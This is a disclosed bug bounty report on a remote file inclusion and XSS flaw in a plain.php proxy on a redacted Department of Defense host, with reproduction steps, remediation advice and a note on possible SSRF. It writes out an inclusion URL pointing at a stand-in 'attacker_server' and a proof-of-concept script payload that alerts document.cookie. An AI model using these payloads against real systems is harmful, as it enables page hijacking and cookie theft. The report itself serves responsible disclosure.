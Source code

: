 # Remote File Inclusion, Malicious File Hosting, and Cross-site Scripting (XSS) in ████████

## Report Details
- **Report ID**: 192940
- **URL**: https://hackerone.com/reports/192940
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-12-21T03:42:57.057Z
- **Disclosed**: 2019-12-02T17:52:45.860Z

## Reporter
- **Username**: jutsuce
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
### Details:
There is currently a security misconfiguration on `plain.php` function located on the host `http://██████████/` allowing attackers to include webserver contents of their choosing (no restriction on filetypes and/or IP addresses), as well as embed malicious javascript payloads in the response via filenames. **This allows attackers to hijack the entire page as a malicious file hosting relay and/or leverage it for XSS attacks on users (authenticated or otherwise).** 

### Technical Explanation:
This vulnerability occurs because of the web application's functionality which is intended to pull directory contents from a specified location. **This functionality extends to importing the contents of those files, meaning that web-page formatted code and/or web page files (`.php`,`.html` etc.) saved on the attacker's server, will be rendered to the victim BY the `████████` server.** 

### Exploitation and Validation: 
**The above information means that attackers can do things like the following:**

--------
#[1]
1. Setup attacking server with malicious web page(s): `python -m SimpleHTTPServer 80`
2. Import the web-page directly into the █████ page: `http://███/████/proxys/plain.php?url=http://attacker_server/t.html&operation=GetParameterInfo&parameter=countryBoundaryLayer&outputFormat=JSON`.

███
█████
**Source & Contents of `t.html`:**
```
<h1>JUTSUCE RFI TEST</h1>
<script>alert(document.cookie)</script>
<script>alert('jutsuce')</script>
```
█████████

--------
#[2]
Additional Exploitation Vectors:
██████
███
████████
██████
--------
#[3]
**Due to the lack of whitelisting and/or site restrictions pseudo-Server-Side-Request-Forgery (SSRF) is a feasible attack vector, and would be easily automated:**
* Internal IP Address Scanning
* Internal Site &/or File Compromise

-------
### Remediation:
**Remove the ability for any external interaction within a functionality of this nature. If external interaction is absolutely required then alongside whitelisting (what hosts/files/etc. are valid), authenticative restrictions should be implemented in order to restrict accessibility.** Whether or not interaction is restricted to internalized site(s), the function should have whitelisting implemented to stop the [3] set of exploit vectors listed above.

Thank you!

`~Jutsuce`

## Attachments
No attachments
